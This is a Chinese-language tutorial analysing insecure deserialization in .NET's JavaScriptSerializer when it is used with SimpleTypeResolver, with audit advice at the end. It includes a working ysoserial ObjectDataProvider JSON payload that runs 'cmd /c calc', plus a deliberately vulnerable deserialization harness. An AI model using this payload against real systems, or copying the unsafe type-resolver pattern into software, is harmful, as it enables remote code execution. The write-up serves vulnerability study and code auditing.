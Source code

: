 # JavaScriptSerializer

JavaScriptSerializer是微软内部自带的api，可以在对象和json字符串之前来回转换。其命名空间位于System.Web.Script.Serialization，结构如下：

![image-20210514092932158](JavaScriptSerializer.assets/image-20210514092932158.png)

# demo

序列化反序列化demo

```csharp
using System;
using System.Web.Script.Serialization;

namespace JavaScriptDeserialize
{
    class Person
    {
        public string Name { get; set; }

    }
    class Program
    {
        static void Main(string[] args)
        {
            // no SimpleTypeResolver
            Person person = new Person() { Name = "jack" };
            JavaScriptSerializer serializer = new JavaScriptSerializer();
            string v = serializer.Serialize(person);
            Console.WriteLine(v);
            Person p = serializer.Deserialize<Person>(v);
            Console.WriteLine(p.Name);

            // SimpleTypeResolver
            JavaScriptSerializer serializerWithType = new JavaScriptSerializer(new SimpleTypeResolver());
            string v1 = serializerWithType.Serialize(person);
            Console.WriteLine(v1);
            Person p1 = serializerWithType.Deserialize<Person>(v1);
            Console.WriteLine(p1.Name);
            Console.ReadKey();
        }
    }
}
```

输出

```json
{"Name":"jack"}
jack
{"__type":"JavaScriptDeserialize.Person, JavaScriptDeserialize, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","Name":"jack"}
jack
```

产生漏洞的原因是在构造函数有两个参数的重载：`public JavaScriptSerializer(JavaScriptTypeResolver resolver)`，其中JavaScriptTypeResolver参数是一个类型解析器，可在序列化字符串中自定义类型的元数据程序集限定名称。

当构造函数使用SimpleTypeResolver参数时，序列化的json中会带有type信息，反序列化时就有漏洞隐患。反序列化方法有三个：

![image-20210514094331079](JavaScriptSerializer.assets/image-20210514094331079.png)

这三个方法都是对`internal static object Deserialize(JavaScriptSerializer serializer, string input, Type type, int depthLimit)`的一个封装

![image-20210514094745730](JavaScriptSerializer.assets/image-20210514094745730.png)

调用BasicDeserialize

![image-20210514094847452](JavaScriptSerializer.assets/image-20210514094847452.png)

继续调用DeserializeInternal

![image-20210514094939562](JavaScriptSerializer.assets/image-20210514094939562.png)

然后

![image-20210514095127803](JavaScriptSerializer.assets/image-20210514095127803.png)

根据节点标签不同的类型进入不同的反序列化实现，当节点标签是Object类型时，先DeserializeDictionary拿到键值对字典，如果包含了`__type`字段，则会进入ConvertObjectToType转换类型。然后一层层进入ConvertObjectToTypeInternal

![image-20210514095534507](JavaScriptSerializer.assets/image-20210514095534507.png)

ConvertObjectToTypeInternal中又会进入ConvertDictionaryToObject

![image-20210514095920487](JavaScriptSerializer.assets/image-20210514095920487.png)

在ConvertDictionaryToObject中，当满足`if (serializer.TypeResolver != null)`类型解析器不为空时，尝试获取`__type`字段的值赋值给obj2，然后强转字符串赋值给text变量。然后通过`serializer.TypeResolver.ResolveType(text)`拿到type赋值给type2。

![image-20210514100023105](JavaScriptSerializer.assets/image-20210514100023105.png)

而类型解析器ResolveType中直接使用Type.GetType获取类型，相当于`__type`控制对象类型。

![image-20210514101044055](JavaScriptSerializer.assets/image-20210514101044055.png)

而type2最终通过`Activator.CreateInstance(type2)`创建对应类型实例。

![image-20210514100405168](JavaScriptSerializer.assets/image-20210514100405168.png)

那么我们传入包含`__type`字段的json，就会转为对应类型的对象。

# 攻击链

使用ObjectDataProvider攻击链，通过ObjectDataProvider来创建Process实例。payload如下：

```json
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f JavaScriptSerializer -g objectdataprovider -c calc
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd', 'Arguments':'/c calc'
        }
    }
}
```

反序列化代码如下

```csharp
using System;
using System.IO;
using System.Web.Script.Serialization;

namespace JavaScriptDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {
            // SimpleTypeResolver
            JavaScriptSerializer serializerWithType = new JavaScriptSerializer(new SimpleTypeResolver());
            serializerWithType.Deserialize<Object>(File.ReadAllText("1.json"));
            Console.ReadKey();
        }
    }
}
```

这里`Deserialize<Object>`用到了Object类型。也可以用其他的Deserialize重载方法。

# 审计

关注传入的json字符串是否可控，以及构造函数中JavaScriptTypeResolver参数，审计自定义类型解析器对于type的校验是否严谨。

# 后文

本文讲解了JavaScriptSerializer序列化api，如果有错误，请指正。

